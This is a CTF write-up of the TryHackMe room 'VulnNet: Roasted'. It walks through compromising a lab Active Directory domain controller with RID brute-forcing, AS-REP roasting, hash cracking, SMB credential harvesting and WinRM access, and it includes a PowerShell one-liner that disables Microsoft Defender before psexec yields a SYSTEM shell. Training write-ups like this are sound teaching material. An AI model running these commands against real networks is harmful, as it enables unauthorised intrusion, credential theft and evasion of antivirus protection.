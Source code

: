 ```yaml
---
description: https://tryhackme.com/room/vulnnetroasted
---
```


# VulnNet: Roasted

## Nmap

```
sudo nmap 10.10.217.198 -p- -sS -sV                                                   

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-03 09:12:47Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  msrpc         Microsoft Windows RPC
49705/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Rid Brute Force

Starting off we find we have guest access to SMB and are able to enumerate users through rid brute forcing with crackmapexec.&#x20;

```
crackmapexec smb '10.10.217.198' -u 'a' -p '' -d 'vulnnet-rst.local' --rid-brute
```

![](<../../../.gitbook/assets/image (21) (3).png>)

### ASREP-Roasting

With a small list of users we run the discovered usernames against GetNPUsers.py to identify accounts with "No Pre-authentication required" (ASREP Roasting).enabled in Active Directory.

```
GetNPUsers.py 'vulnnet-rst.local'/ -usersfile ~/Desktop/users -dc-ip '10.10.217.198' -format 'hashcat' 
```

![](<../../../.gitbook/assets/image (2096).png>)

### Cracking the Hash

We discover that the user t-skid is ASREP roastable. Using hashcat we are soon able to crack the password hash using the rockyou.txt wordlist.

```
hashcat -a 0 -m 18200 ~/Desktop/hash /usr/share/wordlists/rockyou.txt -O
```

![](<../../../.gitbook/assets/image (2086).png>)

### SMB enumeration

With the new found credentials for the use t-skid we turn back to further SMB enumeration against the target Domain Controller.&#x20;

We find we are able to read within the "Scripts" share and identify the file `ResetPassword.vbs` as a file of interest.

```
smbmap -H '10.10.217.198' -u 't-skid' -p '<Password>' -d 'vulnnet-rst.local' -R
```

![](<../../../.gitbook/assets/image (11) (3) (1).png>)

### Plain Text Credentials

Using smbmap the `.vbs` file is downloaded. Upon reading the code we are able to identify alternative user credentials in plain text.

```
smbmap -H '10.10.217.198' -u 't-skid' -p '<Password>' -d 'vulnnet-rst.local' -R -A .vbs
```

![](<../../../.gitbook/assets/image (9) (3) (2).png>)

### Privilege Checking

Checking the user access level with crackmapexec we identify the user as being the Domain Administrator.

```
crackmapexec smb '10.10.217.198' -u 'a-whitehat' -p '<Password> -d 'vulnnet-rst.local'  -x "whoami /all"
```

![](<../../../.gitbook/assets/image (2090).png>)

### User flag and WinRM

With administrative capabilties we are able to login over `WinRM` with Evil-`WinRm`.

```
evil-winrm -i '10.10.217.198' -u 'a-whitehat' -p '<Password>'
```

After logging in we successfully obtain the user.txt flag. However, the system.txt flag is off limits.

![](<../../../.gitbook/assets/image (4) (2) (1) (2).png>)

### Disabling Anti-Virus

In order to obtain a SYSTEM shell we will need to ideally run `psexec.py`. Firstly, we need to disable the anti-virus on the target host as otherwise psexec.py will not be able to execute.

Run the following command within the `Evil-WinRM` session.

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true
```

### Root Flag and System shell

After disabling Microsoft Defender we are then able to externally run `psexec.py` to obtain a SYSTEM shell.

```
psexec.py vulnnet-rst.local/a-whitehat:'<Password>'@'10.10.217.198'
```

![](<../../../.gitbook/assets/image (17) (1).png>)
